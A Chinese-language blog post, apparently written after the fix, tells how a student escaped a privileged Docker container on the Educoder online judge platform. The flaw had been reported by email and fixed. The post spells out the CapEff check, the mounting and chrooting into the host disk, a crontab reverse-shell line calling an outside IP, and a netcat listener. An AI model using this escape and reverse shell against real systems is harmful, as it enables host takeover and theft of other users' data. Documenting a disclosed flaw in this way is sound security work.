

我们学校某些实验课使用的是头歌实践教学平台（educoder，一个在线评测网站），老师说找到漏洞可以提，我就简单挖了挖。其实去年 5 月份就找到这个漏洞了，但是碍于修复需要时间，没有写成文章。前段时间登陆上去看了下，发现已经修复了，就浅浅记录一下吧。

<!-- more -->

说句题外话，我是发邮件告诉他们这个漏洞的，结果就收到个“已转发给技术”，修复完了也渺无音信。要不是这体量不太够我就给他发 CNVD 上面去了😡。

回到正题，说起来这个漏洞也挺简单，分发给用户的评测机其实是跑在 docker 里面的，而这个 docker 是以特权模式启动的。

验证 docker 是否是特权模式启动，只需要使用命令：

```bash
> cat /proc/self/status | grep CapEff
0000003fffffffff
```

结果是`0000003fffffffff`就是了。

知道是特权模式启动的 docker 之后，就可以开始逃逸了。

先挂载宿主机硬盘：
```bash
> mkdir test;
> mount /dev/vda1 test/;
> chroot /test/;
```

现在主机的磁盘就挂载在`/test`下面了，可以查看、修改主机的所有文件，我这里就修改 crontab 简单获取个反弹 shell。

```bash
> vi ./etc/crontab
"*/1 *  *  *  * root bash -i >& /dev/tcp/172.20.253.241/2333 0>&1"
```

在攻击机上监听一下：
```bash
> netcat -lvvp 2333
```

过一会儿就能收到反弹 shell 了，粗略看了看，也就是一个阿里云的主机，可以看到各个评测的答案和代码，还有一些敏感信息按下不表。

